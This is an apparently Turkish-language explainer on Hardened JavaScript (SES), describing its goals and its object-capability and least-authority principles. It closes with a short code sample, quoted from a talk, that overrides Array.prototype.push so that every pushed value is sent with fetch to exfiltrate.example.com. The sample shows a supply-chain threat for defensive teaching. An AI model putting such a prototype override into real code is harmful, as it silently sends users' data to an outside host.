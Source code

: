
_Şekil 1: JavaScript Dil Özellikleri_
> Yukarıdaki ekran görüntüsü [Sertleştirilmiş JavaScript Güvenlik Raporu](https://assets.ctfassets.net/xm0kp9xt5r54/5yM6whKLuiTTCvXQiSw0xe/24bc9532c5ed26f429ec7354095b491e/Hardened-JavaScript.pdf)'ndan alınmıştır.

Belgelerdeki [SES Rehberi](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md) `Sertleştirilmiş JavaScript`i aşağıdaki gibi tanımlar;
- Üçüncü taraf kodun güvenli bir şekilde çalıştırılması için bir JavaScript çalışma zamanı kütüphanesidir.
- JavaScript’in iç güvenlik eksikliğini ele alır.
  - Bu, özellikle JavaScript uygulamalarının
    üçüncü taraf kodları (modüller, paketler, kütüphaneler,
    eklentiler ve plug-in'ler için kullanıcı tarafından sağlanan kodlar vb.) kullanması ve bunlara güvenmesi nedeniyle önemlidir.
- Küresel
  değişebilir durumlar gibi tehlikeli özelliklerin kaldırılması suretiyle en iyi uygulamaları zorlar ve gevşek modda kapsüllemenin eksikliğini ele alır.
- "Strict mode" JavaScript'in güvenli belirlenmiş bir alt kümesidir.
- Herhangi bir IO nesnesini içermez
  [*ambient authority*](https://en.wikipedia.org/wiki/Ambient_authority).
- Bazı yerleşik nesneleri değiştirerek belirsizliği kaldırır.
- Hem yerleşik JavaScript
  nesnelerini hem de program oluşturulan nesneleri dondurma ve değiştirilemez hale getirme işlevselliği ekler.

### Sertleştirilmiş JavaScript'in Prensipleri
`Sertleştirilmiş JavaScript`, aslında güvensizlikleri ortadan kaldırarak JavaScript'e güvenlik getirmeyi amaçlar. Güvenliği sağlamak için 
iki prensipe dayanır;
* **OCaps(Nesne Yetenekleri):** _SES Rehberi[4]_ OCaps disiplinini aşağıdaki gibi tanımlar;
  "Herhangi bir programlama ortamı OCaps modeline uyuyorsa, üç gerekliliği karşılar:
  * Herhangi bir program, kendi verilerini ve yeteneklerini gizleyerek kendi değişmezlerini koruyabilir.
  * Güç, sadece bir nesnenin referansına sahip olmakla, örneğin, bir dosya sistemi nesnesine, bir şey üzerinde kullanılabilir. 
  Güçlü bir nesneye bir referans, bir yetenektir.
  * Bir yeteneği elde etmenin tek yolu, bir tanesi verilmesidir. Örneğin, bir yapılandırıcı veya yöntemin bir argümanı olarak bir tanesini almak."
  
  _SES Rehberi[4]_ ayrıca ekler: "OCaps ile, birçok yabancı, kullanıcıya veya birbirlerine karşı onları rahatsız etme, müdahale etme veya 
  işbirliği yapma riski olmadan tek bir kum havuzunda işbirliği yapabilir."


* **POLA(En Az Yetki Prensibi):** Genel bir tanım şu şekilde olabilir;

  "_En Az Yetki Prensibi (POLA), kodun görevini gerçekleştirmek için ihtiyaç duyduğu yetkiye ve fazlasına sahip olmaması gerektiğini söyler._"[5]

  `Sertleştirilmiş JavaScript` doğrudan `POLA`yı uygulamaz, ancak programcıların modüllerine gereken yetkileri,
ve fazlasını değil, dağıtabilmeleri için zengin bir araç seti uygular.
### "İç tehditler" derken neyi kastediyorsunuz?
Kodunuzun bağımlı olduğu bir program ters davranırsa ne olur? Ya `Array.prototype.push` metodunu geçersiz kılarsa? Normal JavaScript ile aşağıdakine benzer bir şeyi önleyecek bir şey yoktur;
```js
const push = Array.prototype.push;
Array.prototype.push = (...args) => {
  fetch(`https://exfiltrate.example.com?${args}`);
  return push.apply(this, args);
};
```
> **Not**: Yukarıdaki kod örneği [Sertleştirilmiş JavaScript(10:34)](https://www.youtube.com/watch?v=RZ7bBIU8DRc)'ten alınmıştır.
